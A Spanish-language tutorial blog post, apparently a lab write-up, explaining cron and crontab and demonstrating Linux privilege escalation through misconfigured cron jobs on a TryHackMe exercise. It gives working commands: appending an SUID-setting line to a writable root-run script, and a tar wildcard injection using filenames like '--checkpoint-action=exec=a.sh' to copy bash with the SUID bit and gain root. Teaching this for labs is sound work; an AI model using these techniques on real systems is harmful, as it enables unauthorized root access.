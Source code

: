 ```yaml
---
title: Explotación de tareas Cron
date: 2021-12-28 16:46:23 -0500
categories: [Privilege Escalation, Linux]
tags: [privesc,linux,cron]
image:
  path: https://i.ibb.co/dPz847N/explotacion-de-tareas-cron.png
  alt: Explotación de tareas Cron 
---
```


A menudo hay formas de hacer las cosas de manera más rápida, como por ejemplo, las tareas. Algunos webmasters en vez de hacerlo manualmente prefieren ahorrarse el tiempo y automatizarlas. Esto en parte está bien, ya que no siempre vamos a poder estar presentes para ejecutar algo, pero a veces por culpa de una mala configuración esto puede salir muy mal.

## Cron

En los sistemas operativos Unix, cron es un demonio (proceso en segundo plano) que se ejecuta cuando alguien arranca el sistema operativo. Este se encargará de comprobar de acuerdo al tiempo especificado, si existe alguna tarea para ser ejecutada.

## Crontab

El crontab es un archivo donde se guardara una lista de comandos a ser ejecutada en un tiempo especificado por el usuario.

## Diferencias entre Cron y Crontab

**crontab** sería el archivo donde se escribirán la lista de comandos o scripts a ser ejecutadas en un determinado tiempo, estará específicamente diseñado para que sea leído correctamente por **cron** y proceder con la ejecución que nosotros hayamos programado.

## ¿Cómo se usa?

Para poner a funcionar una tarea en cron debemos crear un archivo crontab, pero primero debemos saber como es su sintaxis.

![/etc/crontab](https://i.ibb.co/ZTVqLb1/crontab-2.png)

Eso del `<user-name>` no necesario, porque puedes crear un archivo crontab para cada usuario como root, con `crontab -u <username> -e <username>` donde el parámetro `-u` es para especificar el usuario y `-e` para crear/editar las tareas a ejecutar del usuario.

Ejemplo: `*/1 * * * * touch /home/user/temp/$(date | cut -d ' ' -f 5)`

1.  `*/1` : Minuto
2.  `*` : Hora
3.  `*` : Día del mes
4.  `*` : Mes
5.  `*` : Día de la semana
6.  `touch /home/user/temp/$(date | cut -d ' ' -f 5)` : Comando o Script

Las instrucciones que le estamos dando en este ejemplo son bastante simples. Le estamos diciendo que nos cree un archivo que contenga de nombre la hora exacta del momento en el que lo creo. Así es como funcionaria:

![Ejemplo de un archivo crontab](https://i.ibb.co/hRCmb5t/crontab-1.png)

> Recurso para entender como funcionan las expresiones de programación **crontab**: [crontab.guru](https://crontab.guru).

## ¿Cuál es el riesgo de las tareas Cron?

En realidad no debería existir riesgo, pero lamentablemente si hacemos una mala programación de este, sí que lo hay. Por ejemplo, supongamos que te has creado un script en bash para hacer backups de tu sitio web y has programado a cron para que lo ejecute cada 24 horas:

```bash
#!/usr/bin/env bash

backup_files="/home /root /var/www/html"
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"
tar czf /mnt/backup/$archive_file $backup_files
```

Si analizamos el script no tiene nada raro, pero si le hacemos un listado largo al script (`ls -l`) nos muestra los siguientes permisos: `-rwx-w--w-`. Solo tenemos el permiso de escritura… yo sabiendo esto ya se me ocurre un vector de ataque, consiste en agregarle `chmod u+s /usr/bin/bash` con `echo` para que en el momento que cron ejecute el script como usuario root, agregue el permiso SUID a la bash.

## Detección de tareas Cron a través de un script en Bash

Este script hecho en bash sirve para ver tareas/procesos nuevos que están siendo ejecutados en tiempo real.

```bash
#!/usr/bin/env bash

old_process=$(ps -eo command)
while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]"
	old_process=$new_process
done
```

El uso y funcionamiento de este script es muy sencillo, lo que hace sería ejecutar el comando `ps -eo command` y almacenarlo en la variable old_process, luego entra en un bucle infinito donde ejecuta el mismo comando y lo almacena en una nueva variable llamada new_process, porque entre estas dos variables hay diferentes salidas, a pesar de que en las dos ejecutaran el mismo comando aún existe el delay de tiempo del momento en que fueron ejecutadas. Esto nos lleva a comparar las salidas de las dos variables con `diff` y que imprima las diferencias. Antes de repetir el mismo bucle varias veces debemos renovar el contenido de la variable old_process por la de new_process del momento.

> Una alternativa también seria [PsPy](https://github.com/DominicBreuker/pspy).


## Privilege Escalation

Para demostrar que tan critico es esto, voy a hacer una tarea del módulo [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) de la plataforma [TryHackMe](https://tryhackme.com).

### Cron Jobs - Wildcard

Para empezar primero debemos saber que **cron jobs** están corriendo ahora mismo en la máquina, y para detectarlos podemos usar el script ya explicado anteriormente “procmon.sh” (o también puedes usar PsPy). Yo lo crearé y guardaré en el directorio `/tmp` con el nombre `procmon.sh`.

> Ya guardado debemos asegurarnos si el script tiene permiso de ejecución (`chmod +x /tmp/procmon.sh`).

si corremos el script podemos detectar lo siguiente:

![procmon.sh](https://i.ibb.co/wwksFyq/2.png)

```bash
#!/usr/bin/env bash

cd /home/user
tar czf /tmp/backup.tar.gz *
```

lo primero que hace es entrar al directorio `home` de `user` y con el comando `tar` indicando los parámetros `czf` selecciona todos los archivos `*` y los mete en un comprimido llamado `backup.tar.gz` ubicado en `/tmp`.

Aquí nos podemos dar cuenta de algo muy crítico. El comodín `*` que se expande para incluir todos los archivos del directorio especificado. Si vemos la ayuda de `tar` podemos ver unos dos parámetros interesantes:

-   `--checkpoint[=NUMBER]` display progress messages every NUMBERth record (default 10)
-   `--checkpoint-action=ACTION` execute ACTION on each checkpoint

Sabiendo esto nos podemos plantear la siguiente pregunta: ¿y qué tal si en vez de comprimir más archivos mejor le asignamos unos parámetros?. Dado que a los nombres de los archivos los puede interpretar como opciones de parámetros válidos, crearemos `--checkpoint=1`, `--checkpoint-action=exec=a.sh` y un script con el nombre asignado anteriormente (`a.sh`) donde copiaremos la `/bin/bash` a la ruta `/tmp` y le asignaremos el permiso **SUID**.

```shell
user@debian:~$ touch ./--checkpoint=1 ./--checkpoint-action=exec=a.sh && echo 'cp /bin/bash /tmp && chmod u+s /tmp/bash' > ./a.sh && chmod +x ./a.sh
user@debian:~$ ls
a.sh --checkpoint=1 --checkpoint-action=exec=a.sh myvpn.ovpn tools
user@debian:~$ cat ./a.sh
cp /bin/bash /tmp && chmod u+s /tmp/bash
```
Ahora si nos ponemos en escucha con `watch -n 1 ls -l /tmp/bash` y si esperamos un rato, veremos que funciona. Solo nos quedaría ejecutar bash como su propietario con el parámetro `-p` y nos convertiremos en `root`:

![/tmp/bash -p](https://i.ibb.co/HCkH5b5/15.png)
